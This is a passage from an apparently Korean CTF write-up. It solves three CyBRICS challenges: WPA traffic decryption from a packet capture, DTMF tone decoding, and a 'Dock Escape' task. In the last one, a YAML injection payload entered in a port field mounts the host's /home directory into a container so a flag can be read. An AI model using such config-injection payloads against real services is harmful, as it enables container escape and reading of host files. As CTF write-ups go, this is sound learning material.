 ``` bash
```
전보다 http post 패킷이 많아졌다. 맨 아래 패킷을 살펴보면 아까와 비슷하게 `WLAN_AP_WPA_PSK_passphrase=2_RGR_xO-uiJFiAxdA33-PsdanuK`라는 키워드를 찾을 수 있다. WEP가 보안에 취약하다는것을 알아서인지 이번에는 WPA로 비밀번호를 바꾼 듯 하다. 위와 같은 방법으로 키를 추가하는데 이번에는 `wpa-pwd`형식에 `2_RGR_xO-uiJFiAxdA33-PsdanuK`를 키로 넣으면 비밀번호를 변경한 이후 패킷들을 해독할 수 있다.
``` bash
(...)
50124	796.263229	192.168.1.137	192.168.1.1	HTTP	1242	POST /req/admin HTTP/1.1  (application/x-www-form-urlencoded)
```
계속 관리 페이지의 비밀번호를 수정하다가 맨 마지막에는 flag 값으로 비밀번호를 수정하는것을 확인할 수 있다.  
flag : `cybrics{n0_w4Y_7o_h1d3_fR0m_Y0_n316hb0R}`


# Tone (Forensic, Baby, 10 pts)

> Ha! Looks like this guy forgot to turn off his video stream and entered his password on his phone!  
> [youtu.be/11k0n7TOYeM](https://youtu.be/11k0n7TOYeM)  

스트리밍중인 상태에서 방송을 끄지 않고 비밀번호를 눌렀다고 한다. 링크를 타고 들어가면 예전 핸드폰의 키패드 누르는 소리가 들린다. DTMF(https://namu.wiki/w/DTMF) 라고 하는 이 소리를 분석해서 어떤 키패드를 눌렀는지 알아야 한다. 해당 영상을 mp3로 다운 받는다. 그리고 mp3를 분석할 Audacity(https://www.audacityteam.org/download/) 도 다운받고 설치한다.  

Audacity를 열어 mp3를 드래그 하면 파형이 나온다. 조금만 확대를 해보면 음이 나오는 부분이 어느 부분인지 알 수 있다. 분석이 필요한 `한개의 음` 영역을 드래그 하고, `[분석] - [스펙트럼 도식화]`를 선택하여 도식화된 보라색 그래프를 볼 수 있다.  

음을 찾는 방법은 그래프의 가장 높은 두개의 봉우리에 마우스를 가져다 대면 피크값이 나온다. 이 두 주파수 값을 DTMF 주파수 값과 비교하여 다음과 같은 값을 도출해냈다.  
`222 999 22 777 444 222 7777 7777 33 222 777 33 8 8 666 66 2 555 333 555 2 4`  
이를 키패드의 문자와 연결시키면 플래그가 나온다.  
flag : `cybrics{secrettonalflag}`


# Dock Escape (CTB, Easy, 151 pts)

> We want you to get a flag from hosting server. Flag path is /home/flag  
> http://95.179.188.234:8080/  

호스팅 서버에 있는 /home/flag를 갖고싶다고 한다. 해당 링크로 들어가면 client code, 캡챠, port input이 있다. 우선 해당 홈페이지는 요청한 port 번호로 도커를 하나 자동으로 파준다. port 요청에는 캡챠 인증이 필요하며, 해당 도커에는 일반적으로 접근할 수 없고, client code를 통해서 접근할 수 있다.  

정상적으로 이용하려면 input 값으로 9000 포트를 넣으면 `OK!`문구가 뜨며 도커가 생성된다. `python client.py 95.179.188.234 9000` 로 서버에 접근하면 파일을 열람할 수 있다.  

port input에 `'`를 injection 해보면 아래와 같은 에러가 뜬다.
``` javascript
Error happened! Here is your log 
The Compose file '/tmp/tmpDtZEJH/docker-compose.yml' is invalid because: services.JoGyXdcJTncsyiquFVouKqhlBdtFdHwe.ports is invalid: Invalid port "9000':12345", should be [[remote_ip:]remote_port[-remote_port]:]port[/protocol] 
```
해당 에러는 `docker-compose.yml`에서 발생한 에러이며, 내가 injection한 코드가 들어가있다. input값을 docker-compose 파일에 넣는듯 하다. 이를 이용하여 아래와 같이 새로운 injection 페이로드를 작성할 수 있다.  
```
1218:12345
    volumes:
        - /home:/g0pher #
```
위와 같이 컨테이너에 포워딩은 그대로 해주고, 1218포트로 포워딩 해준다. 그다음 flag가 있는 Host의 /home 디렉토리를 컨테이너의 /g0pher 디렉토리로 마운트한다. 뒷부분의 코드는 `#`을 이용하여 주석처리하면 yml파일에 injection을 할 수 있다. 위의 페이로드를 전송하면 컨테이너가 생성되고, 아래와 같이 client.py를 통해 접근하면 된다.
``` bash
root@raspberrypi:~# python2 client.py 95.179.188.234 1218
Choose what you want to do(store, retreive):retreive
file you want to retreive:/g0pher/flag
cybrics{0dbceabb65128d70f92b70f9d63f277ceac7515c501ece4916d0f3aa65457872}
Choose what you want to do(store, retreive):
```